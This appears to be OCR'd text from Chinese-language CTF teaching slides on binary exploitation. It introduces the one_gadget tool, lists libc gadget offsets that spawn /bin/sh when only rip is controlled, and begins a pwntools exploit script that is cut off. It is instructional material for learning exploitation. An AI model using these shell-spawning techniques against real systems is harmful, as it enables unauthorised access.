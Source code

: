 ```python
io.interactive()
```

---

# 問題三

- 沒辦法控制 rdi
- 只能控制 rip

--

# One gadget

https://github.com/david942j/one_gadget

```sh
one_gadget /path/libc.so.6

0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

- 已知 libc base 跟 libc 版本
- 跳過一遍就 getshell

--

# Demo

```python
from pwn import *
context.arch="amd64"

io=process('./a.out')
#  io=remote('localhost',4000)
elf=ELF('./a.out')
libc=ELF('./libc.so.6')

def menu(idx):
    io.recvline()
    io.sendline(str(idx))
    io.recvline()

def read(addr):
    menu(0)
    io.sendline(str(addr))
    return int(io.recvline()[:-1])

def write(addr,value):
```